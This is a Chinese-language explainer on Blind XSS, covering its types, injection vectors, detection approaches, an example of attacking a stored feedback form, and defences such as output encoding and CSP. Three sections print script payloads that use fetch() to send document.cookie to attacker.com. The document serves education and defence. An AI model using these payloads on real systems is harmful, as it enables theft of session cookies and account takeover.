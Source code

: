 # Blind XSS攻击检测技术文档

## 1. 概述

### 1.1 定义
Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），其特点是攻击者无法立即观察到攻击效果。与传统的XSS攻击不同，Blind XSS的payload在被注入后，可能需要经过一段时间或在特定的用户交互下才会触发，且攻击者通常无法直接看到注入的结果。

### 1.2 原理
Blind XSS的核心原理与传统的XSS攻击类似，都是通过在目标应用中注入恶意脚本代码，利用浏览器的JavaScript执行能力来窃取用户数据或执行其他恶意操作。然而，Blind XSS的特殊之处在于，攻击者无法直接观察到注入的payload是否成功执行，因此需要依赖间接的方式来确认攻击是否成功。

### 1.3 应用场景
Blind XSS通常出现在以下场景中：
- **后台管理系统**：攻击者通过前台用户输入的数据，将恶意脚本注入到后台管理系统中，等待管理员查看时触发。
- **日志系统**：攻击者将恶意脚本注入到日志中，等待管理员查看日志时触发。
- **邮件系统**：攻击者通过邮件内容注入恶意脚本，等待收件人查看邮件时触发。

## 2. Blind XSS的分类

### 2.1 存储型Blind XSS
存储型Blind XSS是指恶意脚本被永久存储在目标服务器上，通常是通过用户输入的数据（如评论、留言等）被存储到数据库中。当其他用户（如管理员）查看这些数据时，恶意脚本会被执行。

### 2.2 反射型Blind XSS
反射型Blind XSS是指恶意脚本通过用户输入的数据被反射回浏览器，但攻击者无法直接观察到反射的结果。这种类型的攻击通常需要用户点击特定的链接或提交特定的表单才能触发。

### 2.3 DOM型Blind XSS
DOM型Blind XSS是指恶意脚本通过修改页面的DOM结构来触发，但攻击者无法直接观察到DOM的变化。这种类型的攻击通常依赖于页面的JavaScript代码对用户输入的处理。

## 3. Blind XSS的技术细节

### 3.1 攻击向量
Blind XSS的攻击向量通常包括以下几种：
- **用户输入字段**：如文本框、文本域等，攻击者可以通过这些字段注入恶意脚本。
- **HTTP头**：如User-Agent、Referer等，攻击者可以通过修改HTTP头来注入恶意脚本。
- **URL参数**：攻击者可以通过URL参数注入恶意脚本。
- **文件上传**：攻击者可以通过上传包含恶意脚本的文件来触发Blind XSS。

### 3.2 攻击检测
由于Blind XSS的特殊性，攻击者无法直接观察到注入的payload是否成功执行，因此需要依赖间接的方式来确认攻击是否成功。以下是几种常见的检测方法：

#### 3.2.1 外部请求检测
攻击者可以通过在payload中嵌入对外部服务器的请求来检测攻击是否成功。例如：
```javascript
<script>fetch('https://attacker.com/collect?data=' + document.cookie);</script>
```
如果攻击成功，攻击者的服务器会收到包含目标用户cookie的请求。

#### 3.2.2 延迟检测
攻击者可以通过在payload中嵌入延迟执行的代码来检测攻击是否成功。例如：
```javascript
<script>setTimeout(function(){ fetch('https://attacker.com/collect?data=' + document.cookie); }, 5000);</script>
```
如果攻击成功，攻击者的服务器会在5秒后收到包含目标用户cookie的请求。

#### 3.2.3 日志检测
攻击者可以通过在payload中嵌入日志记录代码来检测攻击是否成功。例如：
```javascript
<script>console.log('Blind XSS triggered');</script>
```
如果攻击成功，目标用户的浏览器控制台中会输出日志信息。

### 3.3 攻击示例
以下是一个典型的Blind XSS攻击示例：

#### 3.3.1 攻击场景
假设目标应用有一个用户反馈功能，用户提交的反馈会被存储到数据库中，管理员可以在后台查看这些反馈。

#### 3.3.2 攻击步骤
1. 攻击者在反馈表单中输入以下内容：
```html
<script>fetch('https://attacker.com/collect?data=' + document.cookie);</script>
```
2. 提交反馈后，恶意脚本被存储到数据库中。
3. 管理员在后台查看反馈时，恶意脚本被执行，攻击者的服务器收到包含管理员cookie的请求。

## 4. Blind XSS的防御思路

### 4.1 输入过滤与验证
对所有用户输入的数据进行严格的过滤和验证，确保输入的数据符合预期的格式和内容。可以使用白名单机制，只允许特定的字符和格式通过。

### 4.2 输出编码
在将用户输入的数据输出到页面时，进行适当的编码，确保任何潜在的恶意脚本都无法被执行。常见的编码方式包括HTML实体编码、JavaScript编码等。

### 4.3 内容安全策略（CSP）
通过配置内容安全策略（CSP），限制页面中可以执行的脚本来源，防止恶意脚本的执行。例如：
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;
```
该策略只允许来自自身域名和`https://trusted.cdn.com`的脚本执行。

### 4.4 日志与监控
定期检查应用日志，监控异常行为，及时发现和处理潜在的Blind XSS攻击。可以使用自动化工具进行日志分析和异常检测。

### 4.5 安全培训
对开发人员和运维人员进行安全培训，提高他们对Blind XSS等安全威胁的认识，确保在开发和维护过程中采取适当的安全措施。

## 5. 总结
Blind XSS是一种隐蔽性较强的安全威胁，攻击者通过间接的方式确认攻击是否成功，因此难以被及时发现和防御。通过输入过滤、输出编码、内容安全策略、日志监控和安全培训等多种手段，可以有效降低Blind XSS的风险。开发人员和运维人员应时刻保持警惕，确保应用的安全性。

## 6. 参考资料
- OWASP XSS Prevention Cheat Sheet: https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- Content Security Policy (CSP): https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- Blind XSS Detection Techniques: https://portswigger.net/web-security/cross-site-scripting/blind

---

*文档生成时间: 2025-03-11 16:22:31*
